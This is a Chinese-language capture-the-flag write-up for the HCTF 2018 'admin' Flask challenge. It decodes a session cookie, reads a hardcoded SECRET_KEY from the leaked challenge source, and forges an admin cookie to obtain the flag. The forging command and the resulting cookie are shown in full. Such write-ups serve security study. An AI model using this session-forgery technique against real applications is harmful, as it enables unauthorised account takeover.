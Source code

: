 # admin

[题目地址](https://buuoj.cn/challenges#[HCTF%202018]admin)

没flask拿不了flag，心想着[wp](https://www.anquanke.com/post/id/164086)看都看了写篇笔记吧。（来自未来的我，打比赛不得不装了个flask，现在能做了）

进来有两个页面，login和register。随便注册一个用户，检查源代码时发现提示。

```html
<h1 class="nav">Hello a</h1>


<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>
```

那就是要登录成admin？试了一下sql，没有。在打web题时不要放过任何一个页面，所以改密码的地方也要看看。发现意外收获。

```html
<div class="ui grid">
    <div class="four wide column"></div>
    <div class="eight wide column">
        <!-- https://github.com/woadsl1234/hctf_flask/ -->
      <form class="ui form segment" method="post" enctype="multipart/form-data">
        <div class="field required">
          <label>NewPassword</label>
          <input id="newpassword" name="newpassword" required type="password" value="">
        </div>
        <input type="submit" class="ui button fluid" value="更换密码">
      </form>
    </div>
  </div> 
```

是网站的源代码库。看下代码，没什么直接问题，因为这题的关键根本就不在代码上。在cookie中可以发现session，用脚本解码。

```python
import zlib
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

SESSION=".eJxFkEGLwjAQhf_KMuceTNXDCh66VEoXMqUlISSX0m2rSdq40CpqxP--0YXd0xzee9-bmTvU-6mfNWxO07mPoDYdbO7w9gUbUFl-KdJqpFlJCpYQmnYGM9RU7GLFSoK204XgK2nboO1i6dsrjfMFikpTpkfq8jVlo5EOB3RKF6mMkVVGpeUK2eAp48_MUtlPq-zOo8s9-tCTPb3lkgpO0H8MRaqt9PKCKSfSj4b6Ya2sHlCokOusEnQLjwjaedrXp--hP_6dECwmrHiTlsfoyoDnKxR5rCwnlIU6ywOq9UUmb2Fe0SZrPGxfOOOaQ_9P4u8lS36VY-OCAA1EcJ776fUzIAt4_ABA2Wut.Y2_wxg.QZ975-FH1ABPpJSzTCUopoZ_Hk8"
def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)


if __name__ == '__main__':
    print(decryption(SESSION.encode()))
```

得到seesion内容`{'_fresh': True, '_id': b'db084e0d590507b4ca1a6e4567a9e8b75016c713b45da18e2b919bbcd6fa86654bd48593156c77f2cf136b37050fa8471e570d88cc60455c9b399f8d5fcf7cec', 'csrf_token': b'5fb9e2b566d37585b6f55123659f738f2f716096', 'image': b'5OPL', 'name': 'a', 'user_id': '10'}`。继续查看网站模板，发现登录成admin确实是我们的目标，能看见flag。

```html
{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1>
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1>
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

利用seesion什么的绕登录验证也很常见，我们可不可以把自己的sessino改成admin登陆？当然可以，借用大佬的[仓库](https://github.com/noraj/flask-session-cookie-manager)编辑session。编辑时发现需要SECRET_KEY，源代码给了。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

用python3生成session后赋值即成为管理员，拿到flag。关于session还有另一篇很好的[文章](https://www.leavesongs.com/PENETRATION/client-session-security.html)。

- python3 /Applications/Work/Codes/python/flask-session/session-encode.py encode -s "ckj123" -t "{'_fresh': True, '_id': b'db084e0d590507b4ca1a6e4567a9e8b75016c713b45da18e2b919bbcd6fa86654bd48593156c77f2cf136b37050fa8471e570d88cc60455c9b399f8d5fcf7cec', 'csrf_token': b'5fb9e2b566d37585b6f55123659f738f2f716096', 'image': b'5OPL', 'name': 'admin', 'user_id': '10'}"
> .eJxFkEGLwjAQhf_KMuceTNXDFjx0qZQuZEpLQkguxW2rSdq40CpqxP--0YXd0xzee9-bmTs0-6mfNSSn6dxH0JgOkju8fUECKi8uZVaPNK9IyVJCs85gjpqKbaxYRdB2uhR8JW0btG0sfXulcbFAUWvK9EhdsaZsNNLhgE7pMpMxstqorFohGzxl_JlZKvtpld16dIVHH3ryp7daUsEJ-o-hzLSVXl4w40T60VA_rJXVAwoVcp1Vgm7gEUE7T_vm9D30x78TgsWEFW_S8hhdFfB8haKIleWEslBneUC1vszlLcwr2nSNh80LZ9zu0P-T-HvF0l_luHNBgF3nzBEiOM_99PobkAU8fgD8d21V.Y2_xyQ.Oyc5W21bxItPFXo6yjSyrQNmhlM

更改session后刷新拿到flag。

## Flag
> flag{2417cdd3-06d0-4030-84a7-bce93ed40c04}